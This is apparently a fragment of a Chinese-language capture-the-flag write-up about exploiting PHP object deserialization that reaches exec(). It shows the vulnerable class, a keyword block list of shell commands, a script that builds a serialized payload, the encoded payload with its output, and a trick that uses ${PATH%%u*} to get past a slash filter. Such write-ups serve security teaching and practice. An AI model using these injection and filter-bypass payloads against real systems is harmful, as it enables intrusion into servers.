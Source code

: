 ```php
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array(urldecode("file%09fl''ag_1s_here")));
echo urlencode(base64_encode(serialize($a)));
?>
```

- ctf=Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czoxOToiZmlsZQlmbCcnYWdfMXNfaGVyZSI7fX0
  > array(1) {[0]=>string(23) "flag_1s_here: directory"}

文件夹就麻烦了，这个路径怎么构造呢？还是要学点[shell](https://blog.csdn.net/qq_34246965/article/details/108085291)语法。

假如我们的payload是\${PATH\%\%u\*}，取出来的值是什么？[PATH](https://blog.csdn.net/weixin_44966641/article/details/119682388)是一个环境变量，默认值为/usr……一长串内容。\${PATH\%\%u\*}表示拿掉PATH变量值从u开始（包括u）往右全部的字符串。那还剩下什么？/。成功绕过。所以真正的flag叫什么名字呢？

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
```